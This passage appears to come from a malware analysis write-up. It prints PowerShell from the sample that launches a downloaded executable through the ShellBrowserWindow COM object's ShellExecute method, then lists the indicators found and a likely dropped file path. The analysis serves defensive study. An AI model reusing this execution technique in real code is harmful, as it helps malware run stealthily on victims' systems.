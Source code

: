 The code then executes the downloaded executable, creating an instance of the ShellBrowserWindow COM object using its GUID before accessing the `Document.Application.ShellExecute` method to execute the file now stored at the `$path` location : 

```ps1
     $clsid = New-Object Guid 'C08AFD90-F2A1-11D1-8455-00A0C91F3880'
     $type = [Type]::GetTypeFromCLSID($clsid)
     $object = [Activator]::CreateInstance($type)
     $object.Document.Application.ShellExecute($path,$nul, $nul, $nul,0)
```

This is as far as the analysis can go without the downloaded executable - we've discovered two IOCs in the attacker-controlled domain and IP address, and the likely name and location of an additional sample ("C:\ProgramData\QdZGP.exe").
